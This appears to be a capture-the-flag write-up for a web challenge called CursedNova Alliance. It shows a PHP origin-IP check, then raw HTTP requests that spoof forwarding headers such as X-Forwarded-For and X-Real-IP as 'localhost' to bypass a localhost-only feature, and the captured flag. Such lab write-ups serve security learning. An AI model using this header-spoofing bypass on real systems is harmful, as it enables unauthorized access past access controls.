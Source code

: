 # CursedNova, Alliance, web 

## Description
Create your own alliance.

## Solution

Quick look at `includes\pages\game\ShowAlliancePage.class.php` diff and we see:

```
    private function createAlliance()
    {
        $action = $this->getAction();
        if ($action == "send") {
            $checkOriginIpResult = checkOriginIP(getallheaders());
            echo ($checkOriginIpResult[1] . "\n");
            if ($checkOriginIpResult[0] === true) {
                $this->createAllianceProcessor();
            }

        } else {
            $this->display('page.alliance.create.tpl');
        }
    }
```

Page is doing some origin ip verification. When we want to create an alliance using normal browser, the page says that this functionality is available only from localhost:

![local](./img/local.png)

Let's use Burp Proxy for this task.

Using the following request:
```
POST /game.php?page=alliance&mode=create&action=send HTTP/1.1
Host: uni1.cursednova.securing.pl
Cookie: lang=en; 2Moons=fa49076bacf3ea0f50fbee489c22a5e6
Content-Length: 32
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close
Origin: localhost


atag=localhost&aname=localhost
```

we got:
```
HTTP/1.1 200 OK
Date: Tue, 21 Jun 2022 19:03:07 GMT
Server: nginx/1.21.6
Content-Type: text/html; charset=UTF-8
X-Powered-By: PHP/7.3.33
P3P: CP="IDC DSP COR ADM DEVi TAIi PSA PSD IVAi IVDi CONi HIS OUR IND CNT"
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Connection: close
Content-Length: 21

Not localhost enough
```


So let's try more funky headers:

```
POST /game.php?page=alliance&mode=create&action=send HTTP/1.1
Host: uni1.cursednova.securing.pl
Cookie: lang=en; 2Moons=fa49076bacf3ea0f50fbee489c22a5e6
Content-Length: 32
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close
Origin: localhost
Referer: localhost
X-Forwarded-For: localhost
X-Real-IP: localhost
X-Forwarded-Host: localhost
Forwarded: for=localhost
Client-IP: localhost
X-Client-IP: localhost
X-Real-IP: localhost
X-Remote-IP: localhost
X-Remote-Addr: localhost
X-Host: localhost

atag=localhost&aname=localhost
```

and the flag is ours.

Flag: `CURSEDNOVA{You_must_gather_your_party_Chaid9aw}`
